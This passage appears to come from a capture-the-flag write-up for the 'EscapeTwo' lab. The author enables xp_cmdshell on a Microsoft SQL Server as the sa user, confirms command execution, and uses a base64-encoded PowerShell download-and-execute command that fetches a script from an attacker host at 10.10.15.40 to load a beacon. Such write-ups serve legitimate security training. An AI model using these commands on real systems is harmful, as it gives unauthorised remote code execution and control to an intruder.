 Lets enable xpcmdshell and check files etc.

```bash
SQL (sa  dbo@master)> enable_xp_cmdshell
INFO(DC01\SQLEXPRESS): Line 185: Configuration option 'show advanced options' changed from 1 to 1. Run the RECONFIGURE statement to install.
INFO(DC01\SQLEXPRESS): Line 185: Configuration option 'xp_cmdshell' changed from 0 to 1. Run the RECONFIGURE statement to install.
SQL (sa  dbo@master)> xp_cmdshell whoami
output           
--------------   
sequel\sql_svc   

NULL
```

i will load my beacon here directly.

```bash
➜  escapetwo cat shell.ps1 
iwr -usebasicparsing -uri http://10.10.15.40/a.ps1|iex
➜  escapetwo cat shell.ps1 | iconv -t UTF-16LE | base64 -w0
aQB3AHIAIAAtAHUAcwBlAGIAYQBzAGkAYwBwAGEAcgBzAGkAbgBnACAALQB1AHIAaQAgAGgAdAB0AHAAOgAvAC8AMQAwAC4AMQAwAC4AMQA1AC4ANAAwAC8AYQAuAHAAcwAxAHwAaQBlAHgACgA=#      
```

and run

```bash
SQL (sa  dbo@master)> xp_cmdshell powershell -enc aQB3AHIAIAAtAHUAcwBlAGIAYQBzAGkAYwBwAGEAcgBzAGkAbgBnACAALQB1AHIAaQAgAGgAdAB0AHAAOgAvAC8AMQAwAC4AMQAwAC4AMQA1AC4ANAAwAC8AYQAuAHAAcwAxAHwAaQBlAHgACgA=
```

![alt text](../assets/images/escapetwo9.png)
